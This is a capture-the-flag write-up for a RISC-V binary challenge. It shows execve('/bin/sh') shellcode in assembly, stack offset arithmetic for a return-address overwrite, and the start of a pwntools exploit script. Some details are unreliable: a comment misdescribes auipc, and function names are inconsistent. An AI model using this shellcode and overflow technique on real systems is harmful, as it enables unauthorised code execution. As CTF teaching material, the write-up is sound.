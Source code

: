 ### Crafting Shellcode

We start by crafting some RISC-V 32-bit shellcode that spawns `/bin/sh`. The assembly code is presented and analyzed below (credits: [Poland Can Into Space](https://github.com/cromulencellc/hackasat-qualifier-2023-techpapers/blob/main/4.%20Poland%20Can%20Into%20Space/4.%20Poland%20Can%20Into%20Space%20quals%20write-ups.pdf)).

```plaintext
  auipc a0, 0x0       # essentially a0 = 0 (set the upper bits of register `a0` to 0)
  addi a0, a0, 24     # set `a0` to point to the "/bin/sh" string in the data section
  addi a1, zero, 0    # set `a1` to zero
  addi a2, zero, 0    # set `a2` to zero
  addi a7, zero, 221  # set `a7` to 221 which corresponds to the `execve` syscal
  ecall               # perform syscall

.asciz "/bin/sh"      # declaration in the data section
```

### Finding the Shellcode Address

In order to trigger our shellcode, we need to override the return address of the `to_1b1` function with the address of the buffer of the `to_face` function, which implies we first need to find the address of the buffer. Recalling the result of the `checksec` script, Position-Independent Execution is not activated. This means the difference between the leaked address and the buffer address will be the same every time the binary is executed. Hence, if this difference is known, we just need to add it from the leaked address to obtain the address of the buffer at runtime.

This difference can be determined by looking at the function prologues of the `main`, `read_message` and `do_face` functions, more precisely at the instructions decrementing the stack pointer. We start counting from the base pointer of the main function until we reach the buffer of the `do_face` function:

- in `main`: `c.addi16sp sp, -0x40`, so we add `-0x40`
- in `main`, the leaked address is `0x24` bytes away from the base pointer, so we add `0x24`
- in `read_message`: `c.addi16sp sp, -0x30`, so we add `-0x30`
- in `do_face`: the buffer is `-0x140` bytes away from the base pointer, so we add `-0x140`

Adding everything up gives the difference in bytes between the leaked address and the address of our shellcode: `-0x40+0x24 - 0x30 - 0x140 = -0x18c`.

### Finding the Return Address Offset

The return address offset can be inferred from the structure of the stack of the `do_1b1` function. From Ghidra, the address of our shellcode must be padded with `0x24` bytes to be executed.

### Pwntools Exploit

We use the script below to automate the exploitation process.

```python
from pwn import *

context.arch = 'riscv'
context.log_level = 'info'

def generate_shellcode(flag_addr: int):
    asm_code = '''
        auipc a0, 0x0
        addi a0, a0, 24
        addi a1, zero, 0
        addi a2, zero, 0
        addi a7, zero, 221
        ecall

    .asciz "/bin/sh"
    '''
    return asm(asm_code, arch='riscv')
```